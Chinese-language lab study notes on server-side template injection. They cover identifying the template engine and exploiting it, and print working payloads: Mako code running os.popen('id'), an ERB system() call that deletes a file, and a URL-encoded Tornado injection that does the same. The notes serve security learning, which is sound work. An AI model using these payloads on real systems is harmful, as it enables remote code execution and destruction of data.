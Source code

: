 您应该知道，同一负载有时可以返回多个模板语言的成功响应。例如，有效负载

```
{{7*'7'}}
```

在Twig中返回49，在Jinja2中返回777。因此，重要的是不要根据一个成功的回答就得出结论。

### Exploit

一旦发现服务器端模板注入漏洞并识别正在使用的模板引擎，成功利用该漏洞通常涉及以下过程。

- Read

- - Template syntax
  - Security documentation
  - Documented exploits

- Explore the environment
- Create a custom attack

### Read

除非您已经对模板引擎了如指掌，否则通常首先要**阅读其文档**。

#### Learn the basic template syntax

学习基本语法以及关键函数和变量处理显然很重要

例如，一旦您知道正在使用基于Python的Mako模板引擎，实现远程代码执行可以非常简单：

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

```python
lab1：
RUBY ERB template
<%= 7*7 %>
<%= system("rm /home/carlos/morale.txt") %>

lab2：
PYTHON Tornado template
blog-post-author-display=user.name } } { % 25+import+os+%25 } { { os.system('rm%20/home/carlos/morale.txt')   （去掉空格）
```

#### Read about the security implications

文档还可能提供某种“安全”部分

本节的名称可能会有所不同，但它通常会概述人们应该避免使用模板进行的所有**潜在危险的操作**

或者至少是文档中的某种**警告**
